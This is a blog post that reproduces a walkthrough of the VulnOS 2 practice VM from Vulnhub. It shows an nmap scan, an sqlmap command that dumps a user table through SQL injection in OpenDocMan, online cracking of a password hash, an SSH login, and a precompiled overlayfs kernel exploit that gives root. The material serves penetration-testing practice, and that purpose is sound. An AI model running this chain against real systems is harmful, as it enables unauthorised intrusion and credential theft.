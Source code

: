 ```yaml
---
layout: post
title: 黑技能测试：攻破VulnOS 2
---
```


VulnOS是人为打包的带漏洞的操作系统镜像，用来测试渗透技能。

[VulnOS](https://www.vulnhub.com/entry/vulnos-2,147/)是Virtualbox虚拟机镜像。

你的任务是获得这个系统的root权限。

VulnOS镜像下载地址：<http://download.vulnhub.com/vulnos/VulnOSv2.7z>

攻破步骤：<https://github.com/dqi/ctf_writeup/tree/master/boot2root/vulnos2>

Lets scan it:

>```
>_ nmap -sS -T4 -A 192.168.0.100 -p-
>
>Starting Nmap 7.12 ( https://nmap.org ) at 2016-05-17 08:49 CEST
>Nmap scan report for 192.168.0.100
>Host is up (0.00064s latency).
>Not shown: 65532 closed ports
>PORT     STATE SERVICE VERSION
>22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.6 (Ubuntu Linux; protocol 2.0)
>| ssh-hostkey:
>|   1024 f5:4d:c8:e7:8b:c1:b2:11:95:24:fd:0e:4c:3c:3b:3b (DSA)
>|   2048 ff:19:33:7a:c1:ee:b5:d0:dc:66:51:da:f0:6e:fc:48 (RSA)
>|_  256 ae:d7:6f:cc:ed:4a:82:8b:e8:66:a5:11:7a:11:5f:86 (ECDSA)
>80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu))
>|_http-server-header: Apache/2.4.7 (Ubuntu)
>|_http-title: VulnOSv2
>6667/tcp open  irc     ngircd
>MAC Address: 08:00:27:A1:E2:43 (Oracle VirtualBox virtual NIC)
>Device type: general purpose
>Running: Linux 3.X|4.X
>OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
>OS details: Linux 3.2 - 4.4
>Network Distance: 1 hop
>Service Info: Host: irc.example.net; OS: Linux; CPE: cpe:/o:linux:linux_kernel
>>
>TRACEROUTE
>HOP RTT     ADDRESS
>1   0.64 ms 192.168.0.100
>
>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
>Nmap done: 1 IP address (1 host up) scanned in 80.84 seconds
>```

So there is ssh, a webserver and a IRC server.

On the webserver we get a link to /jabc, I spider this site, browse around a
bit, and find something interesting in /jabc/?q=node/8

>```
><p><span style="color:#000000">For security reasons, this section is hidden.</span></p>
><p><span style="color:#000000">For a detailed view and documentation of our products, please visit our documentation platform at /jabcd0cs/ on the server. Just login with guest/guest</span></p>
>```

We follow along to /jabcd0cs/

Here we find OpenDocMan 1.2.7, seeing the copyright for this version only goes
to 2013 I go to exploit db to see if there are any exploits.

>```
>https://www.exploit-db.com/exploits/32075/
>```

So there is SqL-injection possible in the add_value parameter, I fire sqlmap and
it and it gets some nice results.

>```
>sqlmap -u 'http://192.168.0.100/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user'
>-p add_value -D jabcd0cs --dump
>```

We get the hash for the webmin user.

>```
>Database: jabcd0cs
>Table: odm_user
>[3 entries]
>+----+--------------+--------------------+--------------+------------------------------------------+-----------+------------+------------+---------------+
>| id | phone        | Email              | username     | password                                 | last_name | first_name | department | pw_reset_code |
>+----+--------------+--------------------+--------------+------------------------------------------+-----------+------------+------------+---------------+
>| 1  | 5555551212   | webmin@example.com | webmin       | b78aae356709f8c31118ea613980954b         | min       | web        | 2          | <blank>       |
>| 2  | 555 5555555  | guest@example.com  | guest        | 084e0343a0486ff05530df6c705c8bb4 (guest) | guest     | guest      | 2          | NULL          |
>| 3  | 555-555-0199 | winter@example.com | Peter+Winter | 3d5bfcc2c4c3101c754087120572aaf7         | Winter    | Peter      | 1          | NULL          |
>+----+--------------+--------------------+--------------+------------------------------------------+-----------+------------+------------+---------------+
>```

I paste this hash into the google and get back the plaintext.

>```
>result: webmin1980
>```

We can ssh in as this user.

>```
>ssh webmin@192.168.0.100                                                                                                                                                                                                 ⏎
>webmin@192.168.0.100's password:
>Welcome to Ubuntu 14.04.4 LTS (GNU/Linux 3.13.0-24-generic i686)
>
> * Documentation:  https://help.ubuntu.com/
>
>  System information as of Tue May 17 08:49:07 CEST 2016
>
>  System load: 0.0               Memory usage: 4%   Processes:       63
>  Usage of /:  5.7% of 29.91GB   Swap usage:   0%   Users logged in: 0
>
>  Graph this data and manage this system at:
>    https://landscape.canonical.com/
>
>Last login: Wed May  4 10:41:07 2016
>$ id
>uid=1001(webmin) gid=1001(webmin) groups=1001(webmin)
>```

I get a shell on the server and do some recon, after not finding anything for a
while I notice:

>```
>webmin@VulnOSv2:~$ uname -a
>Linux VulnOSv2 3.13.0-24-generic #47-Ubuntu SMP Fri May 2 23:31:42 UTC 2014 i686 i686 i686 GNU/Linux
>```

I go to kernel-exploits to check if this kernel is vulnerable to anything, and
it is! There is even a precompiled exploit for us.

>```
>https://www.kernel-exploits.com/exploit/39/
>```

I copy it into webmins hope directory and...

>```
>webmin@VulnOSv2:~$ chmod +x ofs_32
>webmin@VulnOSv2:~$ ./ofs_32
>spawning threads
>mount #1
>mount #2
>child threads done
>/etc/ld.so.preload created
>creating shared library
># id
>uid=0(root) gid=0(root) groups=0(root),1001(webmin)
>```

Yay!

>```
># cat /root/flag.txt
>Hello and welcome.
>You successfully compromised the company "JABC" and the server completely !!
>Congratulations !!!
>Hope you enjoyed it.
>
>What do you think of A.I.?
>```

Good challenge, I liked exploring the sites looking for vulns, thanks to Vulnhub
for hosting and thanks to c4b3rw0lf for creating it!